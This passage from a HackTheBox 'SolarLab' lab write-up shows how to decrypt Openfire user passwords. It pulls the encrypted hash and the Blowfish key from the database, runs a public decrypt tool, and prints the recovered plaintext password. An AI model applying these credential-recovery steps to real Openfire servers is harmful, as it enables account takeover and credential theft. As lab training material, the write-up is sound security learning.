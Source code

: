 ### Openfire - Database : Decrypt user hashes

- Google : `openfire decrypt password from OFUSER`

> https://github.com/shakaw/openfire-password-decrypt

We need password hash (`encryptedPassword` column) from `ofUser` table, and the blow fish key (`select * from OFPROPERTY where name = 'passwordKey'`)

![](/assets/obsidian/12b39c70484d6d29070332ae35df692c.png)

Search for `passwordKey` in `C:\Program Files\Openfire\embedded-db\openfire.script`

![](/assets/obsidian/1b9c293e36ff3e3dbbb5e3bd8d054a97.png)

> Unfortunately the `php` script from the above **github** repo is not working, I will use another repo to decrypt the hash
> > https://github.com/c0rdis/openfire_decrypt
{: .prompt-tip }

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab/exploit]
└─$ git clone https://github.com/c0rdis/openfire_decrypt

┌──(bravosec㉿fsociety)-[~/htb/SolarLab/exploit]
└─$ cd openfire_decrypt

┌──(bravosec㉿fsociety)-[~/htb/SolarLab/exploit/openfire_decrypt]
└─$ javac OpenFireDecryptPass.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab/exploit/openfire_decrypt]
└─$ java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
```
